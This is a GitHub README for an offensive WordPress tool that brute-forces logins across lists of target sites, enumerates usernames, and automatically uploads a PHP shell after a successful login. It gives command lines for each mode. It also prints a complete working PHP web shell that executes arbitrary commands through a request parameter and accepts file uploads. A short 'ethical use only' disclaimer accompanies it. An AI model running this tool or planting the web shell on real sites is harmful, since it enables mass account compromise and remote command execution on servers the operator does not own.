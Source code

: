 # k0ur1i WordPress Tool
## Author: k0ur1i
## Version: 1.0

## Overview
This tool is a versatile CLI-based WordPress security tester designed to automate:

Brute Force Attacks to test WordPress login credentials.
User Enumeration to discover valid usernames.
Auto Shell Upload to simulate PHP shell exploitation upon successful login.


```

██████╗░░██████╗░███████╗███████╗░██████╗░░█████╗░██████╗░██████╗
██╔══██╗██╔════╝░██╔════╝██╔════╝██╔════╝░██╔══██╗██╔══██╗██╔══██╗
██║░░██║██║░░░░░░█████╗░░█████╗░░██║░░██╗░███████║██║░░██║██║░░██║
██║░░██║██║░░░░░░██╔══╝░░██╔══╝░░██║░░╚██╗██╔══██║██║░░██║██║░░██║
██████╔╝╚██████╗░███████╗███████╗╚██████╔╝██║░░██║██████╔╝██████╔╝
╚═════╝░░╚═════╝░░╚══════╝╚══════╝░╚═════╝░╚═╝░░╚═╝╚═════╝░╚═════╝░

by k0ur1i

--------------------------------------------------
[INFO] Current Date and Time:  2024-11-28 12:34:56
--------------------------------------------------
[1] Brute Force Attack
[2] User Enumeration
[3] Auto Upload PHP Shell
[4] Exit
Choose an option: 
```


## Features
1. Multi-target brute force support.
2. Customizable username and password wordlists.
3. User enumeration for discovering valid accounts.
4. Automatic PHP shell upload upon login success.
5. Fast, multithreaded execution.
   

## Requirements
```pip install -r requirements.txt ```

1. Python 3.8+
2. ```git clone https://github.com/00xk0uR1i/kouriBruter ```
3. Run the script:
# Brute Force Attack

    - `python3 run.py -T targets.txt -U users.txt -P passlist.txt -t 10 --timeout 10`

    -T: Target file containing URLs of WordPress sites.
    -U: User list file for usernames.
    -P: Password list file for brute-forcing.
    -t: Number of threads (default 10).
    --timeout: HTTP request timeout in seconds (default 10).
 # User Enumeration

   
    - `python3 run.py -T targets.txt -U users.txt --enumerate` ✨ new ✨
    - `--enumerate: Enumerate usernames without brute-forcing.` ✨ new ✨
 # Auto Upload PHP Shell

    - `python3 run.py -T targets.txt -U users.txt -P passlist.txt --upload-shell shell.php`
    - `--upload-shell: Specify the path to a PHP shell file for automatic upload.` ✨ new ✨
    
# example 
```python3 run.py```
1. Select [1] for brute force.
2. Input paths to targets.txt, users.txt, and passlist.txt.
3. The tool will attempt login credentials and display successful attempts.

This tool is intended for ethical use only. Unauthorized testing or exploitation is illegal and may result in severe consequences. Use it only on systems you own or have explicit permission to test. **Note**: They might not get updated frequently and are kept for legacy reasons:

- `Configure the script` (Add your Shodan API key:
SHODAN_API_KEY = "your_shodan_api_key")
- `Add your ZoomEye API key (if applicable).
   Configure the Nuclei path and templates.` (legacy)

## Example Exploit Script

```

<?php
// Simple PHP Web Shell

if (isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}

if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "Uploaded: " . $_FILES['file']['name'];
    die;
}

?>
<!DOCTYPE html>
<html>
<head>
    <title>k0ur1i Shell</title>
</head>
<body>
    <h1>Welcome to k0ur1i Shell</h1>
    <form method="post">
        <input type="text" name="cmd" placeholder="Enter command">
        <button type="submit">Execute</button>
    </form>
    <form method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <button type="submit">Upload</button>
    </form>
</body>
</html>

```


Note:

## This tools for ethical hacker I am Not responsible for any bad use .

## License
# This project is licensed under the MIT License.

>thanks for all 

